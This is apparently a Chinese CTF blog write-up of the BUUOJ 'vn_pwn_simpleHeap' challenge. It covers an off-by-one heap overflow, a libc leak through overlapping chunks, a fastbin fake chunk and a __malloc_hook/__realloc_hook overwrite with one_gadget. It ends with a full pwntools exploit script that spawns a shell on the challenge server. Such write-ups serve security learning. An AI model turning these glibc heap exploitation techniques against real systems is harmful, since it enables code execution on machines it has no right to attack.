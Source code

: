 ```yaml
---
layout: "post"
title:  "Buuoj冲分过程-vn_pwn_simpleHeap"
subtitle: "一个glibc堆利用的例子 🍺明けましておめでとうございます😆"
date:   2021-01-02 21:15:38 +0800
header-img: "img/sz-talent-park-bg.jpg"
categories:
  - blog
tags:
  - pwn
  - glibc
  - heap
---
```


# 正文

sub_C39 函数有一个 off-by-one 漏洞，会从stdin读取、写入多一个字节。根据堆内存的chunk结构，我们可以覆盖下一个chunk `mchunk_size`的最后一个字节并修改chunk的大小，然后利用chunk的分裂特点、分配得到重叠的chunk并泄露出 `main_arena.top` 的地址；进一步利用重叠的chunk修改 fastbin并在 main_arena 上方构造大小为0X7F的chunk，最终实现写入任意地址到 `__malloc_hook` 。

## Leak libc

0. 先使得大于 `global_max_fast` 的 chunk 覆盖另一个正在使用的小 chunk；
1. 释放大chunk ，使其进入 unsorted 并被写入 `main_arena.top`的地址；
2. 申请内存使得大chunk发生分裂，`main_arena.top` 的地址写入到小chunk；
3. 输出小chunk并泄露`main_arena.top`

## Gadget

```
ubuntu@VM-0-5-ubuntu:~/project/kayoch1n.github.io/buuoj$ one_gadget /lib/x86_64-linux-gnu/libc.so.6 0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

## Issues

这道题不能把 gadget 直接写入到 `__malloc_hook`：在ubuntu16.04 x86_64 上调试发现，rsp+0x30，rsp+0x50，rsp+0x70处的值都不为0，栈的情况并不能满足任意一个 gadget 的要求；但是通过查阅谷歌了解到另一种方法，这种方法在构造chunk的时候，将 `__realloc_hook` 覆盖为 gadget 的地址，将 `__malloc_hook` 覆盖为一个在 `__libc_realloc` 内的地址 ；触发getshell的调用路径变为 `malloc`->`__libc_malloc`->`__malloc_hook`(address in `__libc_realloc`)->`__realloc_hook`(gadget)。这个方法通过增加调用过程（call压入RA以及function prologue）、加上 `__libc_realloc` 内的push等指令（见下）调整栈顶，使栈上的数据尽量满足gadget的要求。

```
(gdb) disas __libc_realloc
Dump of assembler code for function __GI___libc_realloc:
   0x00007f6b07bc7710 <+0>:     push   %r15       # 
   0x00007f6b07bc7712 <+2>:     push   %r14       #
   0x00007f6b07bc7714 <+4>:     push   %r13       #
   0x00007f6b07bc7716 <+6>:     push   %r12       #
   0x00007f6b07bc7718 <+8>:     mov    %rsi,%r12  #
   0x00007f6b07bc771b <+11>:    push   %rbp       #
   0x00007f6b07bc771c <+12>:    push   %rbx       #
   0x00007f6b07bc771d <+13>:    mov    %rdi,%rbx  #
   0x00007f6b07bc7720 <+16>:    sub    $0x38,%rsp # 以上指令调整栈顶
   0x00007f6b07bc7724 <+20>:    mov    0x33f8a5(%rip),%rax        # 0x7f6b07f06fd0
   0x00007f6b07bc772b <+27>:    mov    (%rax),%rax
   0x00007f6b07bc772e <+30>:    test   %rax,%rax
   0x00007f6b07bc7731 <+33>:    jne    0x7f6b07bc7958 <__GI___libc_realloc+584>
...
   0x00007f6b07bc7958 <+584>:   mov    0x68(%rsp),%rdx
   0x00007f6b07bc795d <+589>:   callq  *%rax      # 触发getshell
...
```

上述指令来自本地libc.so.6；事实上该指令片段和题目提供的libc-2.23.so的指令内容是一致的，只是偏移有差别。本地调试给 `__libc_realloc` 打上断点，检查此时栈顶的结构：

```
(gdb) x/32gx $rsp
0x7ffc3042aa68: 0x000055f11f8d3b71      0x000055f11f8d38e0 # sub    $0x38,%rsp 
0x7ffc3042aa78: 0x0000002000000006      0x00007ffc3042aaa0 #
0x7ffc3042aa88: 0x000055f11f8d3f86      0x00007ffc3042ab80 # 
0x7ffc3042aa98: 0x0000000100000000      0x000055f11f8d3fd0 #
0x7ffc3042aaa8: 0x00007f6b07b63840(rbx) 0x0000000000000000(rbp)
0x7ffc3042aab8: 0x00007ffc3042ab88(r12) 0x0000000108132ca0(r13)
0x7ffc3042aac8: 0x000055f11f8d3f0a(r14) 0x0000000000000000(r15)
0x7ffc3042aad8: 0x14df0f89e95ddc50      0x000055f11f8d38e0 
0x7ffc3042aae8: 0x00007ffc3042ab80      0x0000000000000000
0x7ffc3042aaf8: 0x0000000000000000      0x40c55016c39ddc50
0x7ffc3042ab08: 0x41eb3ffff90ddc50      0x0000000000000000
0x7ffc3042ab18: 0x0000000000000000      0x0000000000000000 # +0x50
0x7ffc3042ab28: 0x00007ffc3042ab98      0x00007f6b08134168 
0x7ffc3042ab38: 0x00007f6b07f1d80b      0x0000000000000000 # +0x70
0x7ffc3042ab48: 0x0000000000000000      0x000055f11f8d38e0
0x7ffc3042ab58: 0x00007ffc3042ab80      0x0000000000000000
```

如果使用 `__libc_realloc` 覆盖 `__malloc_hook`，同样无法满足任意一个gadget的要求；设想不借助push以及sub指令下的栈结构，rsp+0x50及rsp+0x70都可以满足；因此选择使用 0xf0364(0xf02a4) 作为gadget，用 __libc_realloc+20 处的地址覆盖 __malloc_hook。本地可以成功getshell，但是远程打不通；因此尝试调整gadget，选择使用 0xf1207(0xf1147)，ok，顺利打通。

## Payload

```python
#!/usr/bin/python3.6
from pwn import *

filename = './vn_pwn_simpleHeap'
# p = process(filename)
p = remote('node3.buuoj.cn', 25658)
# libc = ELF('/home/ubuntu/glibc-2.23/lib/libc-2.23.so')
libc = ELF('./libc/ubuntu_16_x86_64_libc-2.23.so')
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')


def Add(content, size=None):
    p.sendlineafter(b'choice: ', b'1')
    p.sendlineafter(b'size?', bytes(f'{size or len(content)}', encoding='utf8'))
    p.sendlineafter(b'content:', content)


def Edit(index, content):
    p.sendlineafter(b'choice: ', b'2')
    p.sendlineafter(b'idx?', bytes(f'{index}', encoding='utf8'))
    p.sendlineafter(b'content:', content)


def Show(index):
    p.sendlineafter(b'choice: ', b'3')
    p.sendlineafter(b'idx?', bytes(f'{index}', encoding='utf8'))


def Delete(index):
    p.sendlineafter(b'choice: ', b'4')
    p.sendlineafter(b'idx?', bytes(f'{index}', encoding='utf8'))


def Exit():
    p.sendlineafter(b'choice: ', b'5')

Add(b'0', 0x28)   # 0
Add(b'1', 0x68)   # 1
Add(b'2', 0x68)   # 2
Add(b'3', 0x20)   # 3
payload = b'\x00'*0x28 +b'\xe1'
Edit(0,payload)   # 修改下一个chunk的大小
Delete(1)

Add(b'11', 0x68,)  # 1
Show(2)

leaked = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
main_arena = leaked - 88
realloc_hook = main_arena - 0x18
libc_base = realloc_hook - libc.sym['__realloc_hook']

# one_gadgets = [0xf0364]
one_gadgets = [0xf1147, 0xf02a4]

realloc = libc_base + libc.sym['realloc']
log.success(f'&main_arena: {hex(main_arena)}, &realloc_hook: {hex(realloc_hook)},&realloc: {hex(realloc)}, &libc_base: {hex(libc_base)}')

Add(b'i4and2infact', 0x60)  # 4 and 2
Delete(2)
fake_chunk = main_arena - 0x33
payload = p64(fake_chunk)
Edit(4, payload)
#p.interactive()
Add(b'5', 0x60)
gadget = one_gadgets[0]+libc_base
log.success(f'gadget: {hex(gadget)}')

Add(b'\x00' * 11 + p64(gadget) + p64(realloc+20), 0x60)

p.sendlineafter(b'choice: ', b'1')
p.sendlineafter(b'size?', b'32')
p.interactive()
```